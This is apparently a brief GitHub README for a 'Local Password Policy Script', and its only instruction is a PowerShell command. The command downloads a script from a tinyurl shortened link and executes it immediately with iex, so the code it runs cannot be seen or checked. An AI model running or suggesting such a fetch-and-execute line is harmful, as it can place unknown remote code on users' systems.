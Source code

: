 # LocalPasswordPolicy
Local Password Policy Script


iex ((New-Object System.Net.WebClient).DownloadString('https://tinyurl.com/l0calpa55wordp0licy'))
